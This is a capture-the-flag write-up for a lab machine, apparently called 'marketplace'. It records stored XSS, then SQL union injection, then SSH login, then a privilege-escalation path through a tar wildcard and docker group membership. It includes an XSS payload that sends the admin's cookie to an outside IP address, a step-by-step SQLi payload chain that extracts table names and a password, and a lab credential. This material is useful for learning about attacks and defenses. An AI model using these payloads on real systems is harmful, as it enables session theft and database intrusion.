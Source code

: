 ## Info
### Credential
 User | Password       | Service | Note
------|----------------|---------|------
  jake|@b_ENXkGYUCAv3zJ|         |

## Path
### Website Admin 
1. Listing on the website has XSS. We can post a listing with XSS in it, then report it to the admin to get admin's cookie and gain the access to the admin's account.
```javascript
<script>var i = new Image;i.src="http://10.9.1.102:9000/?"+document.cookie;</script>
```
2. The first flag is shown on the admin panel.

### User
1. At the admin panel, the parameter `user` at `/admin` has SQL injection.
```
# /admin?user=1"
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
```
2. `1-- -` no error => Direct SQLi without escaping quote.
3. `1 or id=2-- -` no error => column name `id`.
4. `1 union select 1,2,3,4-- -` no error => 4 columns.
5. `1 union select 1,2,id,4 from users-- -` no error => table name `users`.
6. `1 union select id,2,3,4 from users where id=2 order by id DESC-- -` output user 2 info => use `ORDER BY` to leak info.
7. `1 union select id,password,3,4 from users where id=2 order by id DESC-- -` output user 2's encrypted password => leak password hash
8. `1 union select 99,@@version,3,4 order by id DESC-- -` => leak MySQL version `8.0.21`
9. `1 union select 99,database(),3,4 order by id DESC-- -` => leak database name `marketplace`
10. `1 union select 99,group_concat(table_name),3,4 from information_schema.tables where table_schema="marketplace" order by id DESC` => leak table names `items,messages,users`
11. `1 union select 99,group_concat(column_name),3,4 from information_schema.columns where table_name="messages" order by id DESC-- -` => leak the column names of `messages` table.
12. `1 union select 99,group_concat(message_content),3,4 from messages where id=1 order by id DESC-- -` => Get the password
```
Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
Your new password is: @b_ENXkGYUCAv3zJ
```
13. `> 1 union select 99,group_concat(user_to),3,4 from messages where id=1 order by id DESC-- -` => The password is belonged to `jake`.
14. `ssh jake@$ip` and get the user flag.

### Root
1. We can run `/opt/backups/backup.sh` as user `michael`.
```bash
$ sudo -l
...
    (michael) NOPASSWD: /opt/backups/backup.sh
```
2. `michael` is belonged to `docker` group.
```bash
$ cat /etc/group
...
docker:x:999:marketplace,michael
```
3. Use tar wildcard technique to get `michael`'s reverse shell.
4. `michael` is belonged to `docker` group, so use the technique from GTFOBins to gain root.


